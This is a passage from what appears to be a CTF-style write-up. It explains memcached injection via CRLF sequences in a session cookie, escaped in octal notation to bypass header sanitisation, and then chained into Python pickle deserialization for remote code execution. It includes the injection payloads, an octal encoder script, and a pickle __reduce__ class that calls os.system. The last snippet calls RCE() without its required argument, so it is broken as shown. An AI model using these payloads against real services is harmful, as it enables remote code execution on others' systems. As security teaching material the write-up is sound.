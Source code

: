 Since we know that this app is using `memcached`, if we manage to inject a `CRLF` sequence in this payload we could achieve memcached injection, and we could inject an arbitrary serialized payload stored on an arbitrary memcached key that would get deserialized thus causing RCE when we call code that would read it.

As article author `d0ge` explains in the blog it is impossible to set a normal CRLF sequence on HTTP headers (reffering to the session cookie that we would need to inject) since they often are sanitized.

However since RFC2109 is implemented in our case, we can bypass this by encoding special characters into octal notation prefixed by a `\` backslash.

Original query:
```
set uicolor 0 5 4\r\n#ff00ff\r\n
```

Injection Payload:
```
1\r\nset injected 0 5 4\r\ntest
```

Query with injection:
```
set uicolor 0 5 4\r\n1\r\nset injected 0 5 4\r\ntest\r\n
```

This is what a memcached injection payload would look like, we are escaping the original query and setting our own value `test` for key `injected`.

If we call `get injected\r\n` we would get `test`.

```py
payload = b"test"
payload_size = len(payload)
cookie = b"1\r\nset injected 0 5 "
cookie += str.encode(str(payload_size))
cookie += str.encode("\r\n")
cookie += payload
cookie += str.encode("\r\n")
cookie += str.encode("get injected")

pack = ""
for x in list(cookie):
    if x > 64:
        pack += oct(x).replace("0o", "\\")
    elif x < 8:
        pack += oct(x).replace("0o", "\\00")
    else:
        pack += oct(x).replace("0o", "\\0")

print(pack)
```

The code above encodes the injection to octal.

```py
import pickle, os

class RCE:
    def __init__(self, char):
        self.char = char

    def __reduce__(self):
        cmd = (f"sleep 10")
        
        return os.system, (cmd,)

payload = pickle.dumps(RCE(), 0)
payload_size = len(payload)
```